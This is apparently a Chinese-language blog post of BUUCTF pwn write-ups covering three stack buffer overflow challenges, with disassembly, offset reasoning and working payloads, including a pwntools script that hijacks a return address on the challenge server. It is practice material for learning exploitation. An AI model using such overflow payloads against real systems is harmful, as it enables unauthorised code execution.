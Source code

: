 ```yaml
---
title: BUUCTF-Pwn-刷题记录
tags:
  - buu
  - pwn
abbrlink: 46d4a28d
date: 2021-10-11 19:30:30
---
```


# warmup_csaw_2016

题目直接给出了函数位置，所以很明显就是要利用gets，gets参数的长度为0x40，所以我们再加上返回地址的8个字节，溢出的总长度为0x48，运行时候可以看出sub_40060D的地址就是它的名字，因此我们可以构建payload

```python
payload = b'a'*0x48+p64(0x40060D)
```

即可得到flag

# ciscn_2019_n_1

打开题目可知大致意思是main函数里面调用了一过func函数，其中要输入v1，但是要判断v2，所以就很明显是需要输入长字符串覆盖到v2的存储空间，覆盖掉即可

```c
.text:0000000000400676                 push    rbp
.text:0000000000400677                 mov     rbp, rsp
.text:000000000040067A                 sub     rsp, 30h
.text:000000000040067E                 pxor    xmm0, xmm0
.text:0000000000400682                 movss   [rbp+var_4], xmm0
.text:0000000000400687                 mov     edi, offset s   ; "Let's guess the number."
.text:000000000040068C                 call    _puts
.text:0000000000400691                 lea     rax, [rbp+var_30]
.text:0000000000400695                 mov     rdi, rax
.text:0000000000400698                 mov     eax, 0
.text:000000000040069D                 call    _gets
.text:00000000004006A2                 movss   xmm0, [rbp+var_4]
.text:00000000004006A7                 ucomiss xmm0, cs:dword_4007F4
.text:00000000004006AE                 jp      short loc_4006CF
.text:00000000004006B0                 movss   xmm0, [rbp+var_4]
.text:00000000004006B5                 ucomiss xmm0, cs:dword_4007F4
.text:00000000004006BC                 jnz     short loc_4006CF
.text:00000000004006BE                 mov     edi, offset command ; "cat /flag"
.text:00000000004006C3                 mov     eax, 0
.text:00000000004006C8                 call    _system
.text:00000000004006CD                 jmp     short loc_4006D9
```

此处需要覆盖0x30-0x4=44个字节给v1，另外4个字节给v2，接着在比较指令ucomiss中找到11.28125的十六进制数`0x41348000`

所以就可以构造出payload`payload = b'a'*44+p64(0x41348000)`

PS:

| 变量类型 | 存储空间 |
| -------- | -------- |
| db       | 1字节    |
| dw       | 2字节    |
| dd       | 4字节    |
| df       | 6字节    |
| dq       | 8字节    |

#### 比较操作

| 指令          | 基于  | 描述         |
| ------------- | ----- | ------------ |
| ucomiss S1,S2 | S2-S1 | 比较单精度值 |
| ucomisd S1,S2 | S2-S1 | 比较双精度值 |

***参数S2必须在XMM寄存器中，而S1可以在XMM寄存器或内存中***

# pwn1_sctf_2016

拿到题目分析，分配的s空间为60，限制输入32，乍一看是不会造成栈溢出的，但是下面有一个字符替换，就是输入I会被替换成you。I是一个字符，you是三个字符，那么我们可以输入20个I（满足32的限制），那么这20个I，最终被替换成了60个字符，从而造成溢出

所以可以构造出payload

```python
from pwn import *

elf=ELF('../pwn1_sctf_2016')

get_flag=elf.symbols['get_flag']

p = remote('node4.buuoj.cn', 26726)

payload = b'I'*20+b'a'*4+p64(get_flag)
p.sendline(payload)
p.interactive()
```

